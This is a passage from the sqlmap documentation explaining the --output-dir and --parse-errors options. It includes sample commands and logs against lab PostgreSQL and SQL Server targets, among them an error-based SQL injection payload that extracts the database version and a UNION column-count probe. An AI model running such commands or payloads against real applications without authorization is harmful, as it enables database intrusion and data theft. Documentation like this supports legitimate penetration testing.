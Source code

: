 Example against a PostgreSQL target:

```
$ python sqlmap.py -u "http://192.168.48.130/sqlmap/pgsql/get_int.php?id=1" --b\
anner --hex -v 3 --parse-errors

[...]
[xx:xx:14] [INFO] fetching banner
[xx:xx:14] [PAYLOAD] 1 AND 5849=CAST((CHR(58)||CHR(118)||CHR(116)||CHR(106)||CHR
(58))||(ENCODE(CONVERT_TO((COALESCE(CAST(VERSION() AS CHARACTER(10000)),(CHR(32)
))),(CHR(85)||CHR(84)||CHR(70)||CHR(56))),(CHR(72)||CHR(69)||CHR(88))))::text||(
CHR(58)||CHR(110)||CHR(120)||CHR(98)||CHR(58)) AS NUMERIC)
[xx:xx:15] [INFO] parsed error message: 'pg_query() [<a href='function.pg-query'
>function.pg-query</a>]: Query failed: ERROR:  invalid input syntax for type num
eric: ":vtj:506f737467726553514c20382e332e39206f6e20693438362d70632d6c696e75782d
676e752c20636f6d70696c656420627920474343206763632d342e332e7265616c20284465626961
6e2032e332e322d312e312920342e332e32:nxb:" in <b>/var/www/sqlmap/libs/pgsql.inc.p
hp</b> on line <b>35</b>'
[xx:xx:15] [INFO] retrieved: PostgreSQL 8.3.9 on i486-pc-linux-gnu, compiled by 
GCC gcc-4.3.real (Debian 4.3.2-1.1) 4.3.2
[...]
```

### Custom output directory path

Option: `--output-dir`

sqlmap by default stores session and result files inside a subdirectory `output`. In case you want to use a different location, you can use this option (e.g. `--output-dir=/tmp`).

### Parse DBMS error messages from response pages

Switch: `--parse-errors`

If the web application is configured in debug mode so that it displays in the HTTP responses the back-end database management system error messages, sqlmap can parse and display them for you.

This is useful for debugging purposes like understanding why a certain enumeration or takeover switch does not work - it might be a matter of session user's privileges and in this case you would see a DBMS error message along the lines of `Access denied for user  <SESSION USER>`. 

Example against a Microsoft SQL Server target:

```
$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1"\
 --parse-errors
[...]
[xx:xx:17] [INFO] ORDER BY technique seems to be usable. This should reduce the 
timeneeded to find the right number of query columns. Automatically extending th
e rangefor current UNION query injection technique test
[xx:xx:17] [INFO] parsed error message: 'Microsoft OLE DB Provider for ODBC Driv
ers (0x80040E14)
[Microsoft][ODBC SQL Server Driver][SQL Server]The ORDER BY position number 10 i
s out of range of the number of items in the select list.
<b>/sqlmap/mssql/iis/get_int.asp, line 27</b>'
[xx:xx:17] [INFO] parsed error message: 'Microsoft OLE DB Provider for ODBC Driv
ers (0x80040E14)
[Microsoft][ODBC SQL Server Driver][SQL Server]The ORDER BY position number 6 is
 out of range of the number of items in the select list.
<b>/sqlmap/mssql/iis/get_int.asp, line 27</b>'
[xx:xx:17] [INFO] parsed error message: 'Microsoft OLE DB Provider for ODBC Driv
ers (0x80040E14)
[Microsoft][ODBC SQL Server Driver][SQL Server]The ORDER BY position number 4 is
 out of range of the number of items in the select list.
<b>/sqlmap/mssql/iis/get_int.asp, line 27</b>'
[xx:xx:17] [INFO] target URL appears to have 3 columns in query
[...]
```